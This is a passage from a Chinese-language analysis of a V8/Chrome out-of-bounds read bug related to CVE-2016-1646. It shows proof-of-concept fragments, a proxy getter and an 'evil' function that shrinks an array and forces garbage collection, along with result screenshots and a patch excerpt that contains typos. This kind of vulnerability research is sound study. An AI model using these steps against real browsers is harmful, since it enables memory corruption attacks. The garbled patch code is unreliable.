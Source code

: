 代码：  
```
     handler.__proto__.__defineGetter(“defineProperty”,evil);
```  
  
  
条件4   
  
  
在我们自定义的代码里面，将数组长度减小，进行垃圾回收，触发越界读。  
  
  
代码：  
```
     function evil(){
             A.length = 1;
             cg();
     }
```  
  
  
2.2.2.4 结果演示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GZ3ibyJL3lH8zQuQcXtaPtgQE8GrefVqrWeHNicIibiaZfBnRzMD3Vicpjtk7Mfmib1CpuMz6p5qrba7yQ/640?wx_fmt=png "")  
  
图 2.2.2.4  
  
           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GZ3ibyJL3lH8zQuQcXtaPtgmugJYuySdU7Ef6I1mbuogHTT58rn1ODDLCLObgTcaEicmZYzrFvicmAA/640?wx_fmt=png "")  
  
  
图 2.2.2.5  
  
  
通过上图，可以看到hole元素及其之后的元素已经被奇怪的数字覆盖，形成了和CVE-2016-1646类似的越界读。  
  
  
//=>这里触发CG    这里是用的垃圾回收方法和第一个POC不同，因为测试的Google Chrome    55.0.2883.87 (正式版本) （64 位）使用前面的CG方式会出现Out of Memory的/问题。  
  
  
2.2.3 补丁修复  
  
  
这里的修复方案是在CVE-2016-1646的检测基础上，又添加了一个检测，检测这个结果对象是否为为”Simple”类型。保证Symbol.species重构函数的返回result object不是一个Proxy Object。  
```
    + if(!visitor->has_simple_elements*+() || !HasOnlySimpleElements(isolate, *receiver)){
           return  IteratorElementsSlow(isolate, receiver, length, visitor);
    }
    Handle<JSObject> array = Handle<JSObject>::cast(receiver);
       switch(array->GetElementsKind()){
       case PACKED_SMI_ELEMENT:
       case PACKED_ELEMENTS:
       case PACKED_FROZEN_ELEMENTS:
      case HOLY_ELEMENTS:{}
    
       }
```  
  
  
这里依旧有两个问题点。  
  